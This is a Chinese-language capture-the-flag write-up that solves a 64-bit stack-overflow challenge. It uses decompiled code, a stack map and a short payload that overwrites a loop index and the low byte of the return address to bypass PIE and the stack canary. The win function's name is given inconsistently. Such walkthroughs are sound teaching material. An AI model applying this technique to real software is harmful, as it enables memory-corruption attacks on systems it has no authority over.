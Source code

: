 先 `checksec` 一下
```sh
┌──(kali㉿helloeveryone)-[~/ctf/pwn/q20_hardstack]
└─$ checksec --file=hard_stack
[*] '/home/kali/ctf/pwn/q20_hardstack/hard_stack'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
没有金丝雀, 地址随机化, 用户栈不可执行

再丢进ida看眼，`F5`一下

main:
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  FILE *stream; // [rsp+18h] [rbp-8h]

  setvbuf(stdout, 0LL, 2, 0LL);
  stream = fopen("flag.txt", "r");
  if ( !stream )
  {
    puts("Something wrong with flag file.");
    exit(0);
  }
  fgets(s, 64, stream);//将字符串读到s中
  sub_400acd();
  puts("Bye~");
  return 0;
}
```

sub_400acd:
```c
ssize_t sub_400acd()
{
  ssize_t result; // rax
  char buf[45]; // [rsp+Fh] [rbp-31h] BYREF
  int i; // [rsp+3Ch] [rbp-4h]

  puts("Who are you?");
  for ( i = 0; ; ++i )
  {
    result = read(0, buf, 1uLL);//一次从缓冲区读一个字节
    if ( result != 1 )
      break;
    result = (unsigned __int8)buf[0];
    if ( buf[0] == '\n' )
      break;
    buf[i + 1] = buf[0];                        // 漏洞:只要没有读入换行符或EOF就会一直读，造成栈溢出
  }
  return result;                                // 可以劫持程序流程
}
```
在ida里看看其他函数

找到一个获得flag的函数 `sub_40076d`
```c
int sub_40067d()
{
  return puts(s);//s即为刚刚读取flag的字符串地址
}
```
现在可以分析一下漏洞函数 `sub_400acd` 的栈了
```
-0000000000000040                 db ? ; undefined
-000000000000003F                 db ? ; undefined
-000000000000003E                 db ? ; undefined
-000000000000003D                 db ? ; undefined
-000000000000003C                 db ? ; undefined
-000000000000003B                 db ? ; undefined
-000000000000003A                 db ? ; undefined
-0000000000000039                 db ? ; undefined
-0000000000000038                 db ? ; undefined
-0000000000000037                 db ? ; undefined
-0000000000000036                 db ? ; undefined
-0000000000000035                 db ? ; undefined
-0000000000000034                 db ? ; undefined
-0000000000000033                 db ? ; undefined
-0000000000000032                 db ? ; undefined
-0000000000000031 buf             db ?
-0000000000000030 var_30          db ?
-000000000000002F                 db ? ; undefined
-000000000000002E                 db ? ; undefined
-000000000000002D                 db ? ; undefined
-000000000000002C                 db ? ; undefined
-000000000000002B                 db ? ; undefined
-000000000000002A                 db ? ; undefined
-0000000000000029                 db ? ; undefined
-0000000000000028                 db ? ; undefined
-0000000000000027                 db ? ; undefined
-0000000000000026                 db ? ; undefined
-0000000000000025                 db ? ; undefined
-0000000000000024                 db ? ; undefined
-0000000000000023                 db ? ; undefined
-0000000000000022                 db ? ; undefined
-0000000000000021                 db ? ; undefined
-0000000000000020                 db ? ; undefined
-000000000000001F                 db ? ; undefined
-000000000000001E                 db ? ; undefined
-000000000000001D                 db ? ; undefined
-000000000000001C                 db ? ; undefined
-000000000000001B                 db ? ; undefined
-000000000000001A                 db ? ; undefined
-0000000000000019                 db ? ; undefined
-0000000000000018                 db ? ; undefined
-0000000000000017                 db ? ; undefined
-0000000000000016                 db ? ; undefined
-0000000000000015                 db ? ; undefined
-0000000000000014                 db ? ; undefined
-0000000000000013                 db ? ; undefined
-0000000000000012                 db ? ; undefined
-0000000000000011                 db ? ; undefined
-0000000000000010                 db ? ; undefined
-000000000000000F                 db ? ; undefined
-000000000000000E                 db ? ; undefined
-000000000000000D                 db ? ; undefined
-000000000000000C                 db ? ; undefined
-000000000000000B                 db ? ; undefined
-000000000000000A                 db ? ; undefined
-0000000000000009                 db ? ; undefined
-0000000000000008                 db ? ; undefined
-0000000000000007                 db ? ; undefined
-0000000000000006                 db ? ; undefined
-0000000000000005                 db ? ; undefined
-0000000000000004 var_4           dd ?
+0000000000000000  s              db 8 dup(?)
+0000000000000008  r              db 8 dup(?)
+0000000000000010
+0000000000000010 ; end of stack variables
```
`buf` 和 `var_30` 占45字节，属于 `buf[45]` , `var_4` 则是变量 `i` 

由此，可以有一种思路: 将 `buf` 溢出覆盖 `i` 实现栈上任意写

构造payload:
```python
payload=b'a'*44+b'\x37'+b'\x42'
```
前44个a是垃圾占位字符，填充 `-0000000000000030` 到 `-0000000000000005` (ps:因为 `-0000000000000031` 总是储存当前字符)

后面写一个 `0x37` , 即将 `i` 改成55。这是考虑到for循环后要有 `i++` , 即下一次写入的地址是 `buf[(i++)+1]` , 此地址即为 `buf[57]` = `-0x31+0x39=0x8` , 就是返回地址的第一个字节

下面解释payload最后一字节:

首先，地址随机化只是进行页的随机化，一页的大小是 `0x1000` , 也就是说同一页上地址的后三位不会改变。

其次，小端储存，是指以字节为单位，低数位储存在低地址，高数位储存在高地址。返回地址是 `call    _sub_400acd` 指令的下一条，地址即 `0x00000000000008D8` , 所以我们最后是将上述地址覆盖成 `0x0000000000000842` , 这正是 `sub_40067d()` 的地址。这样我们就把程序劫持到该函数上打印flag

PS: 由于金丝雀是在栈上变量之后， `rbp` 和返回地址之前，我们可以通过数组索引避开金丝雀实现栈溢出，所以本题开了 `canary` 也可以做